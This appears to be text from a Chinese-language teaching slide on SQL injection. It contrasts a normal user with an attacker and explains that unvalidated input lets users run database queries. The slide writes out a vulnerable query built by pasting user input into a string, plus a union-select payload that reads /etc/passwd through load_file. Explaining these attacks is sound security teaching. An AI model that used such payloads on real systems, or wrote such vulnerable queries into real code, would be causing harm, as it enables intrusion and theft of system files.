

# SQL Injection
非法用户
正常用户
search.html?user=zhang
?user=zhang’ and 1=2 union select 1,2,load_file('/etc/passwd'),4/*
select * from user where username=‘$user’
select * from user where username=‘$user’ and 1=2 union select 1,2,load_file('/etc/passwd'),4/*
select  * from user where username=‘zhang’
select * from user where username=‘zhang’ and 1=2 union select 1,2,load_file('/etc/passwd'),4/*
SQL Injection：由于程序员的水平及经验也参差不齐，相当大一部分程序员在编写代码的时 候，没有对用户输入数据的合法性进行判断，使应用程序存在安全隐患。用户可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想得知的数据，这就 是所谓的SQL Injection，即SQL注入。